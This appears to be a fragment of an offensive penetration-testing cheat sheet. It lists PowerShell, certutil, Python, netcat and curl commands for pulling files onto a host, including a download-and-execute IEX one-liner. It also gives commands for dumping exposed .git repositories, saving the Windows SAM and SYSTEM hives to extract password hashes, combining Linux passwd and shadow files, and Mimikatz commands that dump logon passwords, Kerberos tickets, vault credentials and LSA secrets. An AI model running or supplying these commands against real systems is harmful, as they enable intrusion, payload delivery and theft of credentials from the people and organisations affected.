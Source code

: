   - Powershell
    - `powershell.exe (New-Object System.Net.WebClient).DownloadFile('<URL>', '<DESTINATION_FILE>')`
    - `powershell.exe IEX (New-Object System.Net.WebClient).DownloadString('<URL>')`
    - `powershell "wget <URL>"`

  - Python
    - `python.exe -c "from urllib import urlretrieve; urlretrieve('<URL>', '<DESTINATION_FILE>')"`

  - CertUtil
    - `certutil.exe -urlcache -split -f "<URL>"`
    - `certutil.exe -urlcache -f https//10.10.10.10/file.txt file.txt`

  - NETCAT
    - `nc -lvp 1234 > <OUT_FILE>`
    - `nc <IP> 1234 < <IN_FILE>`

  - CURL
    - `curl <URL> -o <OUT_FILE>`


## GIT
- Download .git
  - `mkdir <DESTINATION_FOLDER>`
  - `./gitdumper.sh <URL>/.git/ <DESTINATION_FOLDER>`

- Extract .git content
  - `mkdir <EXTRACT_FOLDER>`
  - `./extractor.sh <DESTINATION_FOLDER> <EXTRACT_FOLDER>`


## HASHES
- Windows
  - `reg save HKLM\SAM c:\SAM`
  - `reg save HKLM\System c:\System`

  - samdump2 System SAM > hashes

- Linux
  - unshadow passwd shadow > hashes


## MIMIKATZ
- privilege::debug
- 
  ```
  sekurlsa::logonpasswords
  sekurlsa::tickets /export

  kerberos::list /export

  vault::cred
  vault::list

  lsadump::sam
  lsadump::secrets
  lsadump::cache
  ```
